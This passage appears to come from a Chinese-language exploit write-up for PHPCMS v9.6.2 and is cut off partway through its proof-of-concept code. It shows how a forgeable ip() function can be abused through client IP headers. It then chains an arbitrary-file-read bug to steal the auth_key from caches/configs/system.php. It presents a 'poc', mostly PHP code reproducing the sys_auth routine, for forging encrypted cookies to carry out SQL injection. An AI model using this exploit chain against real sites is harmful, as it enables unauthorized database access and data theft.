 ip()函数我们是可以伪造的，来看其定义:
```php
function ip() {
	if(getenv('HTTP_CLIENT_IP') && strcasecmp(getenv('HTTP_CLIENT_IP'), 'unknown')) {
		$ip = getenv('HTTP_CLIENT_IP');
	} elseif(getenv('HTTP_X_FORWARDED_FOR') && strcasecmp(getenv('HTTP_X_FORWARDED_FOR'), 'unknown')) {
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	} elseif(getenv('REMOTE_ADDR') && strcasecmp(getenv('REMOTE_ADDR'), 'unknown')) {
		$ip = getenv('REMOTE_ADDR');
	} elseif(isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], 'unknown')) {
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return preg_match ( '/[\d\.]{7,15}/', $ip, $matches ) ? $matches [0] : '';
}
```

那么配置文件中的auth_key 该如何获取呢？ 我们可以通过v9.6.2任意文件读取漏洞去去读取`caches/configs/system.php` 来获得


这样，解密的key都是可控后，我们就可以伪造任意cookie进行注入了, 上poc:

```php
<?php
/**
* 字符串加密、解密函数
*
*
* @param    string    $txt        字符串
* @param    string    $operation    ENCODE为加密，DECODE为解密，可选参数，默认为ENCODE，
* @param    string    $key        密钥：数字、字母、下划线
* @param    string    $expiry        过期时间
* @return    string
*/
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0) {
    $ckey_length = 4;
    $key = md5($key != '' ? $key : "4sUeVkLdmNZYGu2bPshg");
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

    $string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result = '';
    $box = range(0, 255);

    $rndkey = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    for($a = $j = $i = 0; $i < $string_length; $i++) {
```